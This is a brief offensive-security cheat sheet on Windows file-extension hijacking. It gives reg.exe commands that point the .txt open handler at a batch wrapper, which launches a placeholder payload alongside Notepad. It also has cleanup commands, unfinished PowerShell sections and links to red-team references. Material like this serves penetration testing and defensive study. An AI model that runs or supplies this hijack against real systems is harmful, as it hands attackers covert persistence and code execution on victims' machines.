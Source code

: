 # File Extension Hijacking

## 01 - Exploit

### 1.1 - Command Prompt

```
C:\> reg.exe query "HKCR\txtfile\shell\open\command"

HKEY_CLASSES_ROOT\txtfile\shell\open\command
    (Default)    REG_EXPAND_SZ    %SystemRoot%\system32\NOTEPAD.EXE %1
```

Prepare the payload.

```batch
@echo off
start notepad.exe %1
start C:\path\to\payload.exe
```

Overwrite the registry value.

```
C:\> reg.exe add "HKCR\txtfile\shell\open\command" /t REG_EXPAND_SZ /d "C:\path\to\payload.bat" /f
```

### 1.2 - PowerShell

```
PS C:\> TODO: Convert the command prompt to cmdlet
```

## 02 - Cleanup

### 2.1 - Command Prompt

```
C:\> reg.exe add "HKCR\txtfile\shell\open\command" /t REG_EXPAND_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1" /f
```

### 2.2 - PowerShell

```
PS C:\> TODO: Convert the command prompt to cmdlet
```

---
## References

### Persistence Info

- [Persistence Info: File Extension Hijacking](https://persistence-info.github.io/Data/fileextensionhijacking.html)

### Red Team Notes

- [Red Team Notes: Hijacking Default File Extension](https://www.ired.team/offensive-security/persistence/hijacking-default-file-extension)

### DMCXBlue

- [DMCXBlue: Default File Association](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/t1546-event-triggered-execution/default-file-association)